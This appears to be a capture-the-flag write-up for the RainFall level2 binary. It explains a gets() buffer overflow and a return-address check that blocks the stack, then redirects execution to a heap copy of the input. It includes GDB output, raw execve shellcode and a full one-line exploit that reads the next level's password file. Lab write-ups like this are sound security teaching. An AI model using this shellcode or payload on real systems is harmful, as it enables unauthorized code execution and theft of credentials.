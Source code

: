 ### Brief
This program contain a `main` function and a `p` function.
The `main` function only call `p` and return.
`p` function has a buffer of size `76` and use `gets` to fill it.

### Exploit
Same as in `level1` a buffer is filled using `gets` so it means we can use a buffer overflow.
But in this level the return address is checked before returning so we can't use any address.
To check the address the program use this mask: `0xb0000000` which correspond to the stack section addresses.
Although we can't use the stack program does a `strdup` of our buffer so we can use the heap.

```bash
level2@RainFall:~$ gdb level2
(gdb) break main
Breakpoint 1 at 0x8048542
(gdb) run
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x08048542 in main ()
(gdb) info proc mappings
Mapped address spaces:
...
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

As there is no function that will make us win automatically we need to inject a shellcode in our payload.
The shellcode is just some assembly instruction that does an `execve` of `/bin/bash`.
Here is what it looks like: `'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'`.
So we need to put this in our payload and the return address will be the first instruction of our payload.

We use the same technique as in `level1` to get the offset of the return address which is `80`.
And we also get the address of our shellcode in the heap using gdb:

```bash
level2@RainFall:~$ gdb level2
(gdb) break *0x0804853d
Breakpoint 1 at 0x804853d
(gdb) run
Starting program: /home/user/level2/level2 
test
test

Breakpoint 1, 0x0804853d in p ()
(gdb) info register eax
eax            0x804a008	134520840
```
The address is `0x804a008`

### Get access
To craft our payload we first put our shellcode which `21` byte long.
The return address need to have an offset of `80` so we fill the payload with `80 - 21 = 59` bytes.
Then we write the return address in little endian in the payload: `'\x08\xa0\x04\x08'`

```bash
(python -c "print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A'*59 + '\x08\xa0\x04\x08')"; echo "cat /home/user/level3/.pass") | ./level2
```